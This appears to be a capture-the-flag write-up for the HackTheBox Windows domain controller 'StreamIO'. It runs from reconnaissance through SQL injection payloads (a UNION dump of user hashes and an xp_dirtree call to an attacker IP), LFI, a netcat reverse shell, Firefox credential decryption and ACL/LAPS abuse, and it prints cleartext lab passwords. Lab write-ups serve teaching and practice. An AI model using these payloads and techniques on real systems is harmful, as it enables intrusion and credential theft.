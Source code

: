 Started with a nmap scan
```
53 DNS
80 IIS 10.0
88 Kerberos
135
139
389
443 httpd 2.0
636
3268
3269
5985 winrm
```
Domain `streamIO.htb` Hostname `DC` The SSL cert on `443` shows another subdomain `watch.streamio.htb` gonna fuzz for more subdomains while we wait for this the webhost on port `80` is a default windows IIS page going to the https all we have is a contact forum and on the `watch` subdomain we have a email subscription signup the subdomain scan did not find anything else so fuzzing the webhost we found a `/admin` on the main site and there is a `master.php` which says its only accessible with includes so testing more pages we found a sqli injection in the `search.php` page on the `watch` subdomain after playing around for a bit I found we could do this  `q='; use mast er; exec xp_dirtree '\\10.10.14.8\404';-- -` and run responder and we get a hash for the `DC$` user 
but we cant do much with this so lets keep trying and got a payload for all users `' union select 1,concat_ws(':',username,password),3,4,5,6 FROM streamio.dbo.users; -- -` and we got all the users and hashes and we can crack these since there MD5 and we was able to login with one account `yoshihide:66boysandgirls..` if we go to `/admin/` and click on one of the links it looks like it could be LFI vulnerable test them all did not find one but maybe there is more so we can fuzz and see if we can find one and we got `debug` and we can use php filters to encode the `master.php` file and we can see the contents once we decode it and we can send a POST with the `include=` and we can use this to drop `nc.exe` onto the host machine to get a reverse shell once we gave a shell onto the host machine looking at the source code we found the db creds in the `login.php` file `db_user:B1@hB1@hB1@h` now we need to access the sql service from the machine we can do local port forwarding and we found some more users in the database we can try and cracking them also `nikk37:get_dem_girls2@yahoo.com` and now we have winrm access running winpeas we see there is firefox with stored creds and we can look at `logins.json` and get the encrypted usernames and passwords and we can decrypt it we got  anew login `JDgodd:JDg0dd1s@d0p3cr3@t0r` looking at the bloodhound data this user has write owner over CORE staff so we can use dacledit and add are permissions and then and are self to the group then we can read LAPS to get the admin password `admin:cW4+P)&.7YBv1`  
